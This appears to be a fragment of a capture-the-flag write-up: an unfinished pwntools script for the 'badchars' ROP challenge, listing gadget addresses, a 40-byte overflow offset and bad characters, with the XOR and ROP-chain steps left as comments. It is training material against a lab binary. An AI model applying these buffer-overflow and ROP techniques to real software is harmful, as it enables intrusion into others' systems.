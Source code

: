 Okay now we can do XOR implementation.

```python
from pwn import *

# Load the ELF binary and set the architecture context
elf = context.binary = ELF("badchars")
rop = ROP(elf)

# Start the process
p = process(elf.path)

# Offset to control RIP (determined using cyclic pattern)
offset = 40

# ROP gadgets manually found from binary or ROPgadget
# Gadget: pop r12; pop r13; ret;
# We'll use this to set up memory write (r12 = value, r13 = address)
pop_r12_r15 = p64(0x40069c)

# Gadget: mov QWORD PTR [r13], r12; ret;
# Writes the content of r12 into the memory location pointed by r13
mov = p64(0x400634)

# Gadget: xor BYTE PTR [r15], r14b; ret;
# Will be used to fix badchars in memory after writing
xor = p64(0x400628)

# Memory address in .bss where we’ll write our string
bss_addr = 0x601038

# String we want to write to memory for print_file()
data2write = 'flag.txt'

# Bad characters we want to avoid in our payload
badchars = ['x', 'g', 'a', '.']

# Start building the payload
payload = b'A' * offset  # Fills up to RIP

# At this point, you need to:
# 1. XOR-encode 'flag.txt' to avoid badchars
# 2. Write the encoded string to bss_addr
# 3. XOR-decode bad bytes using the xor gadget
# 4. Call print_file(bss_addr)

# Send the payload and interact with the program
p.recvuntil(b'> ')
p.sendline(payload)
p.interactive()
```
